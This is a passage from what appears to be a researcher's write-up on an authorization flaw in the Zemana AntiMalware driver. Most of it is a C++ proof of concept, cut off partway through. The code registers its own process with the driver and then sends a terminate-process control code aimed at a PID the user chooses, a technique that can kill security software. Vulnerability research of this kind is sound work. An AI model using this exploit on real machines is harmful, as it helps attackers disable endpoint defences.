 Checking the conditions above again, we can see that this control code is exempted from the checks.

![[Pasted image 20241111163013.png]]

This means also that there is no further check to see who could send this particular control code very similar to that of authentication bypass. This means that an external process with administrative privilege is able to register itself as trusted process which can send control codes.

# Second Attempt (Success)

This time, I have added another `DeviceIoControl` to send `IOCTL_REGISTER_PROCESS` code. I have also edited the POC a little to make it easier for testing. 

```cpp
#include <Windows.h>
#include <stdio.h>


const LONGLONG IOCTL_TERMINATE_PROCESS = 0x80002048;
const LONGLONG IOCTL_REGISTER_PROCESS = 0x80002010;
int PID_TO_TERMINATE = 0;


int main(int argc, char**argv)
{
    HANDLE hDevice;
    DWORD bytesReturned;
    char buffer[100];
    if (argc != 2) {
        printf("Usage: RootCauseTerminator.exe <TargetPID>\n");
        exit(-1);
    }
    PID_TO_TERMINATE = atoi(argv[1]);

    // Open a handle to the device through the symbolic link
    hDevice = CreateFile(L"\\\\.\\ZemanaAntiMalware",
        GENERIC_READ | GENERIC_WRITE,
        0,
        NULL,
        OPEN_EXISTING,
        FILE_ATTRIBUTE_NORMAL,
        NULL);

    if (hDevice == INVALID_HANDLE_VALUE)
    {
        printf("Failed to open handle to device. Error: %d\n", GetLastError());
        return 1;
    }

    
    // Register this executable PID to allow itself to send IOCTL_TERMINATE_PROCESS control code to terminator driver.
    DWORD regProcessInput[1] = { GetCurrentProcessId() };
    if (!DeviceIoControl(hDevice, IOCTL_REGISTER_PROCESS, &regProcessInput, sizeof(regProcessInput), NULL, NULL, &bytesReturned, NULL)) {
        printf("Failed to register itself...\n");
    }
    else {
        printf("REGISTERED SUCCESSFULLY\n");
    }


    // Send control code IOCTL_TERMINATE_PROCESS to the driver
    DWORD input[2] = { PID_TO_TERMINATE,TRUE };
```